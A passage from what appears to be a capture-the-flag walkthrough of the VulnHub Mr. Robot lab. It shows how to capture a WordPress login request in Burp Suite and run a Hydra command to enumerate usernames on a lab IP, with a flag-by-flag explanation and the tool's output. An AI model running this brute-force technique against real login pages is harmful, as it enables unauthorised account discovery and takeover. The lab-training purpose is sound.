You should notice when you press log in nothing happens, its like the web page has frozen (to continue using the internet you will need to turn of the proxy later otherwise all your internet traffic will be passed to burp [you can get around this by setting up targets in burp]). Switch back to burp and you should see that the traffic has been captured, what is occuring is that burp suit is holding the request and it is waiting for you to actually send it (burp suit is a very big program and is a fairly steep learning curve so I would recomment doing a course on it, TryHackMe has a good one). Lets have a look at the internet traffic captured.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/cbc871b6a3741e70480fb88d9e74cf8268c74085/Starting_Point/VulnHub/MrRobot/images/wpburp.png"><br>
</div>
<p></p>
Looking at this capture we can see that it was a POST request, and at the bottom we can see our test entries.
<p></p>

```
log=test&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.125.132%2Fwp-admin%2F&testcookie=1
```

<p></p>
This is all the information we need IOT use hydra. Lets go back to our CLI and look at how we put this information into use.
<p></p>
Below is what the hydra command we will use to enumerate the user looks like, it looks very complex however hydra follows generally the same syntax all the time so you will become familiar with this as you continue to use it.

```
hydra -L uniq.dic -p whocares 192.168.125.132 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -t 40
```

<p></p>
To start we use the <kbd>-L</kbd> flag to point to our dictionary we created earlier, (it is important that it is a capital, lowercase uses a single word to test while the capital points it to a file to try all the entries in a file, you can see this principal when you look at the next flag in this command).
<p></p>
The next flag we use is <kbd>-p</kbd> being lowercase it will only use the single word we are providing it "whocares".
<p></p>
The next item is the ip address or html address we want to brute force.
<p></p>
The next item is the information we pulled from our burp dump being the POST request, so here we enter http-post-form.
<p></p>
The final part of this command is the login information we pulled from burp. 
<br>
We start with the extention of the site /wp-login.php next we need to tell hydra where to insert the 'usernames' and 'passwords' we fed it at the start of the command, these go in the ^USER^ and ^PASS^ locations, basically hydra will keep putting each new item in this location and submitting the form untill it gets the return we want. 
<p></p>
We continue along untill we get to the "F=Invalid username" part of the command, what this is saying is this is the fail condition. That is whenever "Invalid username" is returned you have failed to look in, so anything different would be a successful login, we got this information from our tests on what was returned when we put test into the login boxes. I added the -t 40 to say run 40 strings against this command at once IOT speed up the brute force.
<p></p>
Running this command we get the following output:
<p></p>

```
❯ hydra -L uniq.dic -p whocares 192.168.125.132 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -t 40
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-09 11:57:04
[DATA] max 40 tasks per 1 server, overall 40 tasks, 11452 login tries (l:11452/p:1), ~287 tries per task
[DATA] attacking http-post-form://192.168.125.132:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username
[STATUS] 1840.00 tries/min, 1840 tries in 00:01h, 9612 to do in 00:06h, 40 active
[STATUS] 1080.00 tries/min, 3240 tries in 00:03h, 8212 to do in 00:08h, 40 active
[80][http-post-form] host: 192.168.125.132   login: elliot   password: whocares
[80][http-post-form] host: 192.168.125.132   login: Elliot   password: whocares
[80][http-post-form] host: 192.168.125.132   login: ELLIOT   password: whocares
[STATUS] 822.86 tries/min, 5760 tries in 00:07h, 5692 to do in 00:07h, 40 active
[STATUS] 786.67 tries/min, 9440 tries in 00:12h, 2012 to do in 00:03h, 40 active
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-09 12:12:15

```

<p></p>



</details>